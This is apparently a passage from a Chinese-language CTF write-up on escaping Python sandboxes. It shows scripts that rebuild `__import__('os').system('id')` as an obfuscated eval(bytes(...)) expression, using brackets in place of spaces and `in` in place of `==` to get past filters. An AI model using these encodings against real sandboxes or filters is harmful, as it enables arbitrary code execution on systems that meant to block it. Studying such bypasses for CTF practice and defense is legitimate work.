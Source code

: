 
还有一个**空格**的限制，这个姿势在 OrangeKiller CTF 的第二期已经说过了，用 `[]` 来替代。构造脚本：

```python
exp = '__import__("os").system("id")'

print(f"eval(bytes([[j][0]for(i)in[range({len(exp)})][0]for(j)in[range(256)][0]if["+"]or[".join([f"i]==[{i}]and[j]==[{ord(j)}" for i, j in enumerate(exp)]) + "]]))")
```

![image-20230505213223915](picture/image-20230505213223915.png)

这个 payload 可读性已经特别差了。。。

- 目前对于用中括号替代空格不是完全理解。

如果额外限制了 `==`，那么还可以用 `in` 来代替：

```python
exp = '__import__("os").system("id")'

print(f"eval(bytes([[j][0]for(i)in[range({len(exp)})][0]for(j)in[range(256)][0]if["+"]]or[".join([f"i]in[[{i}]]and[j]in[[{ord(j)}" for i, j in enumerate(exp)]) + "]]]))")
```

最后这个 exp 长这样：

![Python 沙箱逃逸的通解探索之路](picture/9-1664366570.png)
